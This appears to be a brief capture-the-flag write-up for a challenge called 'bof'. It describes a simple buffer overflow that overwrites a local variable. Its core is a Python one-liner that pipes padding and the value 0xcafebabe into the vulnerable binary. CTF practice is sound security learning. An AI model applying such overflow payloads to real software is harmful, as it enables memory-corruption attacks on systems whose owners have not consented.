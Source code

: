 ### bof

Description : 

Difficulty : 4/5 

##### Exploit

Simple buffer overflow to overwrite local variable.

``` python
python -c 'print "A" * 0x2c + "\xca\xfe\xba\xbe"[::-1]' | ./bof
```





